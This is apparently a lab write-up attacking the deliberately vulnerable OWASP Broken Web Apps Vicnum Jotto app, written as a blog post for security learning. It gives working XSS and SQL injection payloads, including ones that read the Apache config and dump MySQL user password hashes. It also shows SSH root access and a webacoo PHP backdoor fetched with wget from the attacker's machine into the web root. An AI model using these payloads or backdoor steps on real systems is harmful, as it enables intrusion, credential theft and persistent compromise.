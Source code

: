 ```yaml
---
layout: post
title: OWASP Broken Web Apps Vicnum - Jotto
slug: writeups
name: OWASP Broken Web Apps Vicnum - Jotto
---
```


I started off just playing the game to see what happens moving through the workflow.  After guessing the word in 43 tries I noticed that the count is being passed from the success page over to the scoreboard, much like its sibling application this ends up being something we can modify in transit.

The second time round I made a wordlist of the second word to guess once I figured out it had an r in it:

{% highlight bash %}
cewl -w wordlist.txt -v -d 0 -m 5 http://www.wordbyletter.com/words_starting_with.php?q=r
{% endhighlight %}

Luckily it did end up starting with an r, that way I didn't have to play the annoying game again just to modify my number of guesses.

After getting to the scoreboard page I noticed that the name get parameter is being injected into an HTML string on the page, try making this the name:

{% highlight javascript %}
<script>alert(1)</script>
{% endhighlight %}

into the URL for the name GET parameter worked.

The name parameter also seems like it might be vulnerable to SQLi

Doing a quick:

{% highlight sql %}
' or 1 = 1 #
{% endhighlight %}

shows query results for all users on the page, so we know its injectable.

Now to get something a little more juicy:
{% highlight sql %}
union all select load_file('/etc/apache2/apache2.conf'),2,3,4#
{% endhighlight %}

This will return the entire apache web config in its entirety.

I suppose just like its sibling lets break in:

{% highlight sql %}
'  union all select user,password,3,4 from mysql.user#
{% endhighlight %}

As in the sibling application this page can be used to get root's password: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Next lets ssh to the VM:

{% highlight  bash %}
ssh root@ip
pw: owaspbwa
{% endhighlight %}

Now for a persisted backdoor, webacoo worked for the last one, why not use it again.

{% highlight bash %}
webacoo -g -o bd.php
{% endhighlight %}

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

{% highlight bash %}
wget http://iptoparrot:8000/bd.php
{% endhighlight %}

Then to test things out:

{% highlight bash %}
webacoo -t -u http://ip/bd.php
{% endhighlight %}